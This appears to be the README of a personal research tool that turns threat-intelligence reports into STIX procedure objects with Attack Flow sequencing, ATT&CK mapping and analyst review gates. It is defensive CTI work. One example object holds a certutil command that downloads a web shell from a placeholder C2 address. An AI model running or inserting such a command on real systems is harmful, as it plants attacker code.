


# Procedure Extraction Pipeline

The procedure extraction pipeline reads a
threat-intelligence report, extracts *how* the adversary operated as
first-class `x-procedure` objects, and
walks the result past four human review gates before anything ships. The
output is a self-contained bundle any STIX consumer can read, and,
optionally, a graph.

The whole pipeline takes inspiration from [Tidal Cyber's procedure modeling methodology](https://www.tidalcyber.com/blog/procedures-make-it-possible) and translates it into a structured machine-readable object in common STIX 2.1 format. Sequencing inside the bundle uses the objects and `precedes` relationships of [MITRE CTID's Attack Flow](https://center-for-threat-informed-defense.github.io/attack-flow/), an open specification, so a bundle reads as an attack chain, not a list.



## Features

- **Four Kanban style review gates.** Entities, procedures, technique mappings and the
  final bundle each pause for a human. Every gate can be switched off per
  source, or set to *assist* mode, where an AI reviewer recommends and the
  analyst decides.
-  ** Direct reference to locally stored ATT&CK v19.2 mapping.** The model proposes, a
  retriever ranks the real catalogue, everything is validated against it, and
  a second model call picks, preventing technique hallucination. Every pick carries a verbatim quote from the
  source; a quote that is not in the source demotes the pick.
- **Attack Flow sequencing.** Procedures carry their order as `PRECEDES`
  relationships, with operator and condition objects where the chain forks,
  and only when the source actually describes an order.
- **A graph, with an undo.** Bundles can be written to Neo4j alongside the
  ATT&CK catalogue, which is never modified, and any one report's
  contribution can be removed on its own.
- **It learns from corrections.** Analyst decisions become rules that are
  injected into future runs only when relevant, scored on whether they
  helped, and promotable to hard guardrails. See
  [docs/FEEDBACK_FLYWHEEL.md](docs/FEEDBACK_FLYWHEEL.md).
- **Bring your own model.** Anthropic by default, or any OpenAI-compatible
  endpoint: Azure, OpenRouter, vLLM, Ollama.

## The procedure object in a nutshell

Everything the pipeline produces centers around a custom STIX 2.1 object,
`x-procedure`. ATT&CK techniques say *what* an adversary did; a procedure says
*how*, as an object with its own fields rather than a relationship between an
actor and a technique.

> A procedure is a discrete, repeatable technical implementation that
> integrates one or more techniques, often spanning multiple tactics, to
> fulfill a specific adversarial objective as an atomic event within an attack
> sequence.

Names follow `[Verb] [Object] via [Tool/Method]`: `Download web shell via
certutil`, `Exploit Apache ActiveMQ via CVE-2023-46604`. No actor names; the
actor sits on a graph edge.

A procedure is well-formed when three sets are non-empty, `P = { AP, LS, ⟨C⟩ }`:

- **AP**, `x_technique_refs`: the ATT&CK techniques it implements, resolved
  against the catalogue. An unresolvable technique is omitted, never invented.
- **LS**, `x_log_source_refs`: where a defender would see it, derived from
  ATT&CK's own detection chain (technique → detection strategy → analytic →
  data component).
- **⟨C⟩**, `x_components_refs`: the ordered observables that constitute it, a
  `process` per command line the source actually printed, with the binary it
  ran as a `file`.

Every procedure is a unique observation. The same behavior in two reports is
two objects with the same name, different ids and different source refs;
`x_fingerprint` groups them at query time and nothing merges them at write
time. Abridged from real serializer output on a synthetic fixture:

```json
{
  "type": "x-procedure",
  "id": "x-procedure--5e04f60d-2ebe-4d3d-a5f4-2d1fff629516",
  "name": "Download web shell via certutil",
  "description": "The actor used certutil.exe to download a web shell from the C2 server.",
  "extensions": {
    "extension-definition--b422519e-c47a-439d-9195-0f16b94fa889": { "extension_type": "new-sdo" }
  },
  "x_technique_refs": ["attack-pattern--8d267313-…", "attack-pattern--66f5262d-…"],
  "x_platforms": ["windows::server"],
  "confidence": 78,
  "x_source_refs": ["identity--9f6a692e-…"],
  "x_procedure_type": "reporting",
  "x_fingerprint": "f152cefe0cd06a3a5e9c4770a5ada269",
  "x_components_refs": ["process--14cb5655-…"]
}
```

```json
{
  "type": "process",
  "id": "process--14cb5655-000c-409d-96e0-ba75c72fea54",
  "command_line": "certutil.exe -urlcache -split -f http://203.0.113.10/shell.jsp",
  "x_exe_name": "certutil.exe"
}
```

The full reference is [docs/X_PROCEDURE.md](docs/X_PROCEDURE.md): the
[tuple](docs/X_PROCEDURE.md#2-the-tuple), [every
property](docs/X_PROCEDURE.md#3-every-property), the [Attack Flow
translation](docs/X_PROCEDURE.md#12-translating-to-attack-flow), and the
[complete example](docs/X_PROCEDURE.md#14-a-complete-example) this one is cut
from.

## Use cases

### CTI analysis

- Reconstruct an intrusion as the source describes it into a structured attack
  flow, so the sequence of procedures can be analysed step by step rather than
  as a flat list of techniques.
- Compare procedures across intrusions and threat groups: TTP trend analysis,
  shared choke points, and which behaviors recur regardless of who is behind
  them.
- Ask the graph "which procedures implement T1059.001, and what did they
  touch?" or "which procedures from different reports share two or more
  techniques?" with the Cypher in
  [X_PROCEDURE.md §10](docs/X_PROCEDURE.md#10-in-the-graph).
- Keep every vendor's account separate. Two reports describing the same
  behavior produce two procedures with the same name and fingerprint, each
  tied to its own source. A fingerprint match means "worth comparing", not
  "the same": it hashes techniques, platforms and tactics, not the tool or
  the CVE.

### Threat emulation

- Read a bundle as an emulation plan: each procedure's components are
  `process` objects carrying the verbatim command line and the binary it ran.
- Follow the order and the branches: `precedes` relationships give the
  sequence, and `attack-operator` AND/OR nodes mark where paths split or join.
- Hand the result to Attack Flow 2.0 tooling using the mapping in
  [§12](docs/X_PROCEDURE.md#12-translating-to-attack-flow). A converter script
  does not ship yet.
- Expect the plan to be only as complete as the source. No command line is
  ever fabricated, so a narrative report yields procedures with an empty
  component set and a lower confidence.

### Detection engineering

- Start from what a defender would see: every procedure's description ends
  with the observable evidence a monitored environment would produce.
- Trace each behavior to ATT&CK's detection chain through `x_log_source_refs`,
  which projects data components and analytics onto the procedure.
- Find coverage gaps instead of assuming them away: a procedure whose
  techniques have no ATT&CK detection coverage is flagged at validation.
- Write the rule yourself. The pipeline does not emit Sigma or any other
  rule; a rule has a different owner and lifecycle, and this output is the
  behavior the rule should catch.

## Prerequisites

- Docker with Compose v2
- Node 20 or newer, for the UI
- Python 3.12, for the ATT&CK loader script (and the backend, if you run it
  outside Docker)
- An Anthropic API key, or an OpenAI-compatible one
- Disk for the first run: the API image (several GB, mostly PyTorch), the
  ATT&CK bundle (54 MB), Docling's document models (about 500 MB, on the
  first parse) and the technique-retrieval model (about 570 MB, downloaded on
  the **first technique-extraction call**, not at `docker compose up`)

## Quick start

```bash
git clone https://github.com/netandneedle/procedure-extraction-pipeline.git
cd procedure-extraction-pipeline
cp .env.example .env            # set POSTGRES_PASSWORD, NEO4J_PASSWORD, ANTHROPIC_API_KEY
scripts/fetch_attack.sh         # ATT&CK Enterprise v19.2 -> data/attack/
docker compose up -d            # postgres, neo4j, api; the first build takes several minutes
python3 -m venv .venv && .venv/bin/pip install neo4j   # a venv: system Python 3.12 refuses pip installs (PEP 668)
.venv/bin/python scripts/load_attack.py --bundle data/attack/enterprise-attack-19.2.json \
    --uri bolt://localhost:7687 --user neo4j --password "$(grep '^NEO4J_PASSWORD=' .env | cut -d= -f2-)"
cd frontend && npm install && npm run dev
```

Then open <http://localhost:5173>:

1. **Add Source**, choose `data/samples/aa23-061a-stopransomware-royal-ransomware.pdf`
   (a public-domain CISA advisory), leave the gates on, answer **Yes** to
   "does the source include sequential information" (the advisory narrates
   one intrusion in order; auto-detect leans towards "no" when unsure, and a
   "no" means no kill chain in the output), and **Add**.
2. **Run** on the card. Parsing and entity extraction take a minute or two;
   the card lands in the **Entity Review** column.
3. Open the card and work through the gates in order. Gate 0 asks whether
   the named things are right. Gate 1 shows the procedures as a graph over
   the source text. Gate 2 asks whether each procedure's techniques are
   right. Gate 3 is the whole bundle.
4. After Gate 3 the bundle is validated and stored. Open **Explorer** to see
   it as a graph and download the JSON.

The Neo4j graph stays empty until you set `NEO4J_WRITES_ENABLED=true` in
`.env` and restart the API. It is off by default so a first run cannot write
anything you have not looked at.



## Configuration

Everything lives in `.env`; `.env.example` documents every variable. The
ones that matter:

| Variable | What it does |
|---|---|
| `POSTGRES_PASSWORD`, `NEO4J_PASSWORD` | Required; Compose refuses to start without them. Neo4j reads its password on the **first** boot of an empty volume only. |
| `ANTHROPIC_API_KEY` or `OPENAI_API_KEY` | The key for the provider you use. |
| `LLM_PROVIDER` | `anthropic` (default) or `openai`. |
| `LLM_MODEL`, `REVIEWER_MODEL` | Two tiers on purpose. Extraction runs about nine calls per source and wants a mid-tier model; the AI reviewer runs once per gate and should be a stronger *and different* model, or its agreement readout measures nothing. |
| `OPENAI_BASE_URL` | Point the `openai` provider at any compatible endpoint. |
| `TECHNIQUE_RETRIEVER` | `embedding` (default, downloads a ~570 MB model) or `token_overlap` (lexical, no download). |
| `NEO4J_WRITES_ENABLED` | `false` by default. |

## How it works

Sixteen stages in one LangGraph state machine, checkpointed to Postgres
after every step, so a pause at a gate can outlive the API process. Seven
stages call a model; the rest are ordinary Python, and the line between them
is deliberate. Every model claim has to be anchored in the source text, and
bundle validation is all-or-nothing.

[docs/HOW_IT_WORKS.md](docs/HOW_IT_WORKS.md) follows the sample advisory
through every stage in plain language.
[docs/X_PROCEDURE.md](docs/X_PROCEDURE.md) is the deep dive on the object
itself: every property, the tuple, fingerprinting, relationships, sequencing,
and what a STIX consumer should expect.
[docs/ARCHITECTURE.md](docs/ARCHITECTURE.md) is the reference: files, state,
routing, and the contracts that tests pin.

## How it learns

Every correction an analyst makes at a gate is recorded. After the run, a
model turns them into general rules; each later run retrieves only the rules
relevant to its report; and each rule is scored on whether it prevented the
correction it warned about. Rules that work rise. Rules that do not can be
rewritten, pinned, or promoted to a deterministic denylist that no model can
argue with. [docs/FEEDBACK_FLYWHEEL.md](docs/FEEDBACK_FLYWHEEL.md).

## Running without Docker

The backend reads `backend/.env`, not the root `.env`. Set at least:

```
DATABASE_URL=postgresql+asyncpg://pipeline:<password>@localhost:5432/pipeline
NEO4J_URI=bolt://localhost:7687
NEO4J_PASSWORD=<password>
ANTHROPIC_API_KEY=<key>
ATTACK_STIX_PATH=/absolute/path/to/repo/data/attack/enterprise-attack-19.2.json
```

The last one matters: the default is a path inside the container. Then:

```bash
python3.12 -m venv backend/.venv && source backend/.venv/bin/activate
pip install -r backend/requirements.txt
cd backend && uvicorn app.main:app --reload     # :8000
```

## Where your data lives

- **Postgres:** the source queue, every pipeline checkpoint, the LLM
  response cache, completed bundles, corrections and learned rules. The
  schema is created at API startup; there is no migration step.
- **Neo4j:** the ATT&CK catalogue you loaded, plus procedures when writes
  are enabled. `docker compose exec -w /app api python -m scripts.undo_graph_source --list`
  shows what each report contributed; `--report-id <id>` removes it.
- **Uploads:** the `uploads` volume, mounted at `/tmp/pipeline/uploads` in
  the API container. They survive restarts and `docker compose down`;
  `docker compose down -v` removes them along with the databases.

## Troubleshooting

- **A run fails at technique extraction with a file-not-found error.** The
  ATT&CK bundle is missing: run `scripts/fetch_attack.sh` and restart the API.
- **`load_attack.py` cannot authenticate, or Neo4j ignores the password in
  `.env`.** Neo4j reads `NEO4J_PASSWORD` only when its data volume is empty.
  `docker compose down -v` discards the volumes so it takes effect; reload
  the catalogue afterwards.
- **The API's health check hangs for minutes during the first run.** The
  technique-retrieval model is downloading and loading. It happens once.
  `TECHNIQUE_RETRIEVER=token_overlap` skips it entirely.
- **The UI cannot reach the API.** The dev server proxies to
  `http://localhost:8000`; set `VITE_API_URL` if the backend is elsewhere.

## Development

Two Python test suites with two configs, and a plain `pytest` runs only one:

```bash
pytest -q -rs                      # tests/  (integration + e2e; needs Postgres)
cd backend && pytest -q -rs        # backend/tests/
cd frontend && npm test -- --run && npm run build
pip install pre-commit && pre-commit install    # gitleaks + hygiene hooks
```

Both suites must pass with zero failures. [CONTRIBUTING.md](CONTRIBUTING.md)
has the rules that bite newcomers. [docs/SBOM.md](docs/SBOM.md) lists every
dependency, model, dataset and external service the pipeline uses, with
licenses.

## Architecture

FastAPI and LangGraph on Python 3.12; React 18, Vite and Tailwind on the
front; Postgres for state and Neo4j for the graph; Docling for document
parsing; a security-domain sentence-embedding model for technique retrieval.
Details in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md).

## Security

Single-user, localhost-only, no authentication, by design. Every port is
bound to loopback. Read [SECURITY.md](SECURITY.md) before exposing anything.

## License, maintenance and forking

Apache 2.0; see [LICENSE](LICENSE) and [NOTICE](NOTICE).

This is personal research, published as it stands. I make no promise to keep
maintaining it, to answer issues, or to review pull requests on any schedule.
Fork it and change it for your own use. What a fork has to keep is what the
license asks for in [section 4](LICENSE): the LICENSE text, the NOTICE file,
and a note in the files you changed. A link back to this repository is
appreciated, not required.

ATT&CK® is a registered trademark of The MITRE Corporation. STIX™ is an
OASIS standard. The sample advisory is a United States Government work in
the public domain.
